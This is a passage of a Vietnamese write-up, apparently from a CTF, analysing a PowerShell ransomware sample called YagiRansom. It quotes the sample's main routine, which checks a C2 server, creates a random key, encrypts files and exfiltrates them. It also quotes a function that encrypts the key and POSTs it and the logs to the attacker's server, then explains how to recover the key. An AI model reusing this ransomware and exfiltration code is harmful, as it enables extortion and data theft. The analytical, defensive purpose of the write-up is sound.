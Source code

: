Mô tả chung 
```
Hàm có tác dụng mã hóa tên file và nội dung theo thuật toán của "function R64Encoder" và sau đó gửi đi "url" bằng "HTTP POST"
```

6.Và hàm `main` ở cuối

```powershell
# Main
if ($Mode -eq "-d") { 
   Write-Host ; Write-Host "[!] Shutdowning...." -ForegroundColor Red; sleep 1 }
else {
   Write-Host ;
   Write-Host "[+] Checking communication with C2 Server.." -ForegroundColor Blue
   $DCe = GetStatus ; sleep 1
   $WiETm = -join ( (48..57) + (65..90) + (97..122) | Get-Random -Count 24 | % {[char]$_})
   Write-Host "[!] Encrypting ..." -ForegroundColor Red
   CreateReadme ; EncryptFiles ; if ($DCe) { SendResults ; sleep 1
   if ($ENyR -eq "-x") { Write-Host "[i] Exfiltrating ..." -ForegroundColor Green
      ExfiltrateFiles ; sleep 1 }}
   if (!$DCe) { Write-Host "[+] Saving logs in yaginote.txt.." -ForegroundColor Blue }
   else { Write-Host "[+] Sending logs to C2 Server.." -ForegroundColor Blue }}
   if ($args -like "-demo") { RemoveWallpaper ; PopUpRansom
   if ($PayNow -eq "True") { SendPay ; SendOK } else { SendClose ; SendOK }}
   else { SendOK }
sleep 1000 ; Write-Host "[i] Done!" -ForegroundColor Green ; Write-Host
```

Chức năng chính của hàm main là 
* Tạo khóa `$WiETm` 
* Mã hóa các tệp `EncryptFiles` 
* Cuối cùng là dùng hàm `ExfiltrateFiles` để lọc và gưir dữ liệu đi.

### Giải quyết 
Nói chung thì chương trình sẽ tạo khóa ngẫu nhiên và mã hóa file, sau đó sẽ lọc và gửi lên `url`

Hiện tại từ hàm `main` và truy xuất từ các hàm trước chúng ta sẽ có thể tìm `key` ngược lại tiến trình. Ta có `key` chính là biến `$WiETm` gồm chữ [a-z][A-Z][0-9] và random 24 kí tự (đừng nghĩ bruteforce vì đến chết cũng chưa ra :>>>).

* Có 1 mẹo nhỏ là toi đã lưu code vào docs để tiện `ctrl + F`
Ta hãy tìm thử khóa `$WiETm` nào. Hmmmm, có thể ta có thể tìm ngược lại từ hàm `function SendResults` 

```powershell
function SendResults {
   $cvf = Invoke-AESEncryption -Key $Uz19o -Text $WiETm ; $cVl = R64Encoder -t $cvf
   $2YngY = "> $cVl > $OgE > $zVSza > $7VEq"
   $RansomLogs = Get-Content "$Directory$slash$I26" | Select-String "[!]" | Select-String "YagiRansom!" -NotMatch
   $XoX = R64Encoder -t $2YngY ; $B64Logs = R64Encoder -t $RansomLogs
   Invoke-WebRequest -useb "$7Ci	B`:$UFX/data" -Method POST -Body $XoX 2>&1> $null
   Invoke-WebRequest -useb "$7CiB`:$UFX/logs" -Method POST -Body $B64Logs 2>&1> $null }
```
